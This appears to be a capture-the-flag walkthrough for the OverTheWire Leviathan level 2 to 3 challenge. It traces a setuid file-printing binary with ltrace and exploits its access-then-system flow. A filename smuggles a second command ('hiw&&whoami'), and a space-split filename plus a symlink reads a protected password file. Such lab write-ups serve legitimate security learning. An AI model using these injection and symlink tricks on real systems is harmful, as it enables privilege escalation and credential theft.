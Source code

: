 # Leviathan 2 -> 3

```bash
ssh leviathan2@leviathan.labs.overthewire.org
```

```bash
$ ls -la
...
-r-sr-x---   1 leviathan3 leviathan2 7498 Nov 14  2014 printfile
...
```

Let's see what it does

```bash
$ ./printfile
*** File Printer ***
Usage: ./printfile filename
```

Let's try again

```bash
$ cd `mktemp -d`
$ echo hellow > hiw
$ ~/printfile hiw
/bin/cat: hiw: Permission denied
```

Now with `ltrace`

```bash
$ ltrace ~/printfile hiw
__libc_start_main(0x804852d, 2, 0xffffd654, 0x8048600 <unfinished ...>
access("hiw", 4) = 0
snprintf("/bin/cat hiw", 511, "/bin/cat %s", "hiw") = 12
system("/bin/cat hiw"hellow
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> ) = 0
+++ exited (status 0) +++
```

Things we found:

* It uses `access` to know if the file perms
* Then will use `cat` to read it.

Since `printfile` is owned by `leviathan3`, the `system` call should be made using `leviathan3`, unless we use `ltrace` right?


```bash
$ ltrace ~/printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852d, 2, 0xffffd654, 0x8048600 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4) = -1
puts("You cant have that file..."You cant have that file...
) = 27
+++ exited (status 1) +++
$ ln -s /etc/leviathan_pass/leviathan3
$ ~/printfile leviathan3
You cant have that file...
```

...

```bash
$ ls -l
total 4
-rw-rw-r-- 1 leviathan2 leviathan2  7 Oct  4 03:20 hiw
lrwxrwxrwx 1 leviathan2 leviathan2 30 Oct  4 03:25 leviathan3 -> /etc/leviathan_pass/leviathan3
```

But `ltrace ~/printfile hiw` worked, so let's try something

```bash
$ echo 123 > "hiw&&whoami"
$ ltrace ~/printfile "hiw&&whoami"
__libc_start_main(0x804852d, 2, 0xffffd664, 0x8048600 <unfinished ...>
access("hiw&&whoami", 4) = 0
snprintf("/bin/cat hiw&&whoami", 511, "/bin/cat %s", "hiw&&whoami") = 20
system("/bin/cat hiw&&whoami"hellow
leviathan2
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> ) = 0
+++ exited (status 0) +++
```

Good ! it worked !

```
system("/bin/cat hiw&&whoami"hellow
leviathan2
```

```bash
$ echo hah > "hiw leviathan3"
$ ~/printfile "hiw leviathan3"
/bin/cat: hiw: Permission denied
/bin/cat: leviathan3: Permission denied
```

It evaluated the file perms of "hiw leviathan3" which went OK and tried to read it as two files. Yet still, won't read the file `leviathan3`.  
It got me thinking and after a while I remember I was in my temp directory, let's try again directly in `/tmp/` (which is not owned by `leviathan2`).

```bash
$ echo hellow > /tmp/hiw
$ ln -s /etc/leviathan_pass/leviathan3 /tmp/leviathan3
$ touch "/tmp/hiw leviathan3"
$ ~/printfile "hiw leviathan3"
```

Success !


* ltrace
* mktemp
* ln
* access
* system
* cat
